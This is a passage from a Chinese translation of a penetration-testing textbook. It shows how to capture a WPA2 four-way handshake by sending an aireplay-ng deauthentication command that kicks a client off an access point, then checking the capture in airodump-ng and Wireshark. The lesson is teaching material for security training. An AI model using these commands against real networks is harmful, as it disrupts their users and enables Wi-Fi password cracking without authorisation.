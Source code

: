 如你所见，主机已连接 ❶。为了捕获四次握手，我们可以等待另一个无线客户端连接，或者通过将某个客户端踢出网络并迫使其重新连接来加速这一过程。

为了强制客户端重新连接，可以使用 Aireplay-ng 向已连接的客户端发送一条消息，告知它不再连接到接入点。当客户端重新认证时，我们将捕获客户端与接入点之间的四次握手。我们需要的 Aireplay-ng 选项如下：

+   **`-0`** 表示去认证。

+   **`1`** 是要发送的去认证请求的数量。

+   **`-a 00:14:6C:7E:40:80`** 是基站的 MAC 地址。

+   **`-c 00:0F:B5:FD:FB:C2`** 是要去认证的客户端的 MAC 地址。

[示例 15-13 显示了 `aireplay-ng` 命令和去认证请求。

示例 15-13. 向客户端发送去认证请求

```
root@kali:~# **aireplay-ng -0 1 -a 00:23:69:F5:B4:2B -c 70:56:81:B2:F0:53 mon0**
16:35:11  Waiting for beacon frame (BSSID: 00:23:69:F5:B4:2B) on channel 6
16:35:14  Sending 64 directed DeAuth. STMAC: [70:56:81:B2:F0:53] [24|66 ACKs]
```

现在我们回到 Airodump-ng 窗口，如示例 15-14 所示。

示例 15-14. 在 Airodump-ng 中捕获 WPA2 握手

```
CH  6 ][ Elapsed: 2 mins ][ 2015-11-23 17:10 ] WPA handshake: 00:23:69:F5:B4:2B ❶

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 00:23:69:F5:B4:2B  -51 100      774      363   18   6  54 . WPA2 CCMP   PSK  linksys

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe

 00:23:69:F5:B4:2B  70:56:81:B2:F0:53  -29   1 - 1     47       457
```

如果 Airodump-ng 捕获到与客户端的四次握手，它会将其记录在捕获输出的第一行 ❶。

一旦捕获到 WPA2 握手，关闭 Airodump-ng，然后在 Wireshark 中通过文件菜单打开 *.cap* 文件，路径为 File4Open4*filename.cap*。进入 Wireshark 后，使用过滤器 `eapol` 协议查看构成握手的四个数据包，如[图 15-8 所示。

![Wireshark 中的 WPA2 握手数据包](img/httpatomoreillycomsourcenostarchimages2030500.png.jpg)图 15-8. Wireshark 中的 WPA2 握手数据包
